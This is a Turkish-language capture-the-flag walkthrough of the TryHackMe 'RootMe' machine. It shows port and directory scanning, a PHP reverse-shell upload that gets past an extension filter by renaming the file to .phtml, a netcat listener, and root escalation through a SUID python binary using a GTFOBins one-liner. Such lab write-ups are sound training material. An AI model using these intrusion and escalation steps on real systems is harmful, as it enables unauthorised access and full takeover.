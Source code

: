 # RootMe CTF Write up
---
Selam Dostlar RootMe ctf çözümüyle karsınızdayım.

`nmap -sC -sV <İP> -Pn`


> Nmap 7.80 scan initiated Thu Sep 10 09:14:31 2020 as: nmap -sC -sV -A -oN >initial 10.10.26.74
>Nmap scan report for 10.10.26.74
>Host is up (0.29s latency).
>Not shown: 998 closed ports
>PORT   STATE SERVICE VERSION
>22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; >protocol 2.0)
>| ssh-hostkey: 
>|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
>|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
>|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
>80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
>| http-cookie-flags: 
>|   /: 
>|     PHPSESSID: 
>|_      httponly flag not set
>|_http-server-header: Apache/2.4.29 (Ubuntu)
>|_http-title: HackIT - Home
>Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

##### 80 portunun (http) acik oldugunu goruyoruz hemen siteye gidiyoruz:
---------





/index.php de (ana safada) isimize yarayacak birsey yok bizde gobuster/dirb 
ile dizin taraması yapıyoruz.


`gobuster dir -u http://10.10.214.100 -w /usr/share/dirb/wordlists/common.txt`

>/.hta (Status: 403)
>/.htaccess (Status: 403)
>/.htpasswd (Status: 403)
>/css (Status: 301)
>/index.php (Status: 200)
>/js (Status: 301)
>/panel (Status: 301)
>/server-status (Status: 403)
>/uploads (Status: 301)


##### Bize Verilen çıktıyı inceliyoruz:
--------
Status:403 olarak belirtilen dizinler erisim yetkimizin `olmadığı` dizinler
Status:301 olarak belirttiği dizinler erisim yetkimizin `oldugu` dizinler

##### Erisim yetkimizin olduğu dizinleri inceliyoruz:
------
`/css dizininde home dizini ve /panel dizinin css kodları var.`
`/js dizininde bir js kodu var.`
`/panel dizininde bizi dosya yükleyebileceğimiz bir sayfa karşılıyor.`
`/uploads dizini yüklenen dosyaların bulunduğu dizin`

##### Php reverse shell indirmek ve düzenlemek:
----
`~Reverse Shelli [buradan](https://github.com/pentestmonkey/php-reverse-shell) indirebilirsiniz.`
`Php reverse shelli açıp tun0 ipimizi ve dinleycek portumuzu yazıyoruz.`

##### php reverse shelli /panel adresine yüklemek:
--------
`Php reverse shell yüklemeye çalışıyoruz ama hata veriyor.`
`Buradan php dosyalarını yüklemeyi kabul etmediğini görüyoruz.`
`Bunu bypass etmek için uzatısını phtml olarak degistirip yüklüyoruz.`

##### Shelli almaya calışıyoruz:
-----
`/uploads dizinine yuklenen dosyaların gittigini biliyorduk.`
`Bizde yukledigimiz dosyanın buraya geldiğini görüyoruz.`
`nc -lvnp (shelle yazdığımız port) yazarak portumuzu dinlemeye alıyoruz.`
`/uploads dizinine yüklediğimiz shellin üzerine tıklıyoruz`
`Ve Bağlantı Geliyor`

##### User flagı buluyoruz:
------
`Hemen bulunduğumuz dizine ls çekiyoruz ve user flagı okuyoruz:`

```
$ cat user.txt
THM{xxxxxxxxxxxxxxx}
```

##### Yetki Yükseltmek:
---
```
find / -user root -perm /4000 2>/dev/null
```
`komutu ile root olarak kullanbileceğimiz progrmaları listeliyoruz.`
`/usr/bin/python ı görüyoruz ve bunla yetki yükseltmeye çalışıyoruz.`

[GTFOBins](https://gtfobins.github.io/) adresinde pythonu aratıyor ve python yetki yükseltme komutunu buluyoruz:
```
-c 'import os; os.setuid(0); os.system("/bin/sh")'
```
`pythonun bulunduğu dizini belirterek (/usr/bin/python) pythonu çalıştırıyor ve yetki yükseltme komutumuzu yazıyoruz.`

```
/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

id yazarak root olduğumuzu görüyoruz:
```
uid=0(root) gid=33(www-data) groups=33(www-data)
```

`/root dizini altında bulunan root.txt dosyasını okuyoruz`

```
# cat /root/root.txt
THM{xxxxxxxxxxxxxxxxxxxx}
```







